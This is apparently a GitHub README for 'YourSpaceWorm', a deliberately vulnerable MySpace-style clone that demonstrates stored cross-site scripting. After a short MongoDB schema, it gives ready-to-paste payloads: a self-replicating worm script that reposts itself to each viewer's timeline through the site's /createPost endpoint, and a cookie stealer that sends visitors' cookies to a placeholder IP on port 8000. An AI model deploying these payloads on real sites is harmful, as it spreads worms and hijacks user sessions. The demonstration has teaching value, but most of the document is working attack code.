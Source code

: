 # YourSpaceWorm
Simple myspace clone vulnerable to a myspace worm

## Database:

Mongodb nosql database. Everything stored as documents (jsons)

### users document:
```json

{
    _id: ObjectId
    username: unique string
    password: string
    name: string
    timeline: [ post subdocument ]
}
```
### posts subdocument:
```json
{
    _id: ObjectId
    title: string
    content: string
}
```

## Stored XXS
The website posts are vulnerable to stored xxs. Users can put js code into both the title and content of the posts which allows them to customize their profile. 

# Worm Code 

### Title
```html
<!-- Title -->
<span class="worm-title">Mike Zylka is the coolest person out there. Go visit his site. </span>
```
<sub><sup>*\* Farhan does not approve this message*</sup></sub>
### Content
```html
<!-- Content -->
<script class="worm-script" async>
(function() {
let wormTitle = "<span class='worm-title'>" +document.getElementsByClassName('worm-title')[0].parentElement.innerText + "</span>";
console.log(wormTitle)

let wormContent = "<script class=\"worm-script\" async>" + document.getElementsByClassName('worm-script')[0].innerText + "<\/script>";
console.log(wormContent)


async function wormPost() {
const result = await fetch('/createPost', {
                            method: 'POST',
                            headers: {
                                'Content-Type': 'application/json'
                            },
                            body: JSON.stringify({
                                title: wormTitle,
                                content: wormContent
                            })
                        }).then((res) => res.json());
console.log(result);
}

wormPost()

})();
</script>
```


# Cookie Stealer Code 

## Title

```html
This will steal your cookies 
```

## Content

```html
<!-- Content -->
<script class="cookie-stealer" async>
(function() {



async function cookieStealer() {
let xhr = new XMLHttpRequest();
xhr.open('get', `http://<IP Address>:8000?cookies = ${document.cookie}`);
xhr.send();
}

cookieStealer()

})();
</script>
```
